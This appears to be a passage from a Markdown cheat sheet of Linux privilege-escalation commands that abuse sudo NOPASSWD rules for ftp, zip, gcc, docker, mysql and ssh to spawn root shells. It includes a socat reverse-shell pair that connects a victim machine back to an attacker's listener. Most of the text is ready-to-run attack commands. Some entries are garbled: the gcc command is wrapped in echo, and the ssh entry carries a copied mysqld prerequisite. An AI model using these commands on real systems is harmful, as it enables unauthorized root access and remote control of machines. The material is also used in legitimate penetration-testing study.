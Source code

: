 ## ftp
> (root) NOPASSWD: /usr/bin/ftp
```bash
sudo ftp
```
After that, type `! /bin/bash` inside it.

## socat
> (root) NOPASSWD: /usr/bin/socat
This requires reverse shell approach
- Local Host (For receiving connection - hacker)
```bash
socat file:`tty`,raw,echo=0 tcp-listen:<Local Port>
```
- Remote Host (Victim or Target)
```bash
sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:<Target IP>:<Target Port>
```

## zip
> (root) NOPASSWD: /usr/bin/zip
```bash
echo "test" > /tmp/test && sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```

## gcc
> (root) NOPASSWD: /usr/bin/gcc
```bash
echo "sudo gcc -wrapper /bin/bash,-s ."
```

## docker
> (root) NOPASSWD: /usr/bin/docker
Prerequisite: `docker` daemon must be running.
```bash
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## mysql
> (root) NOPASSWD: /usr/bin/mysql
Prerequisite: `mysqld` daemon must be running.
```bash
sudo mysql -e '\! /bin/sh'
```

## ssh
> (root) NOPASSWD: /usr/bin/ssh
Prerequisite: `mysqld` daemon must be running.
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
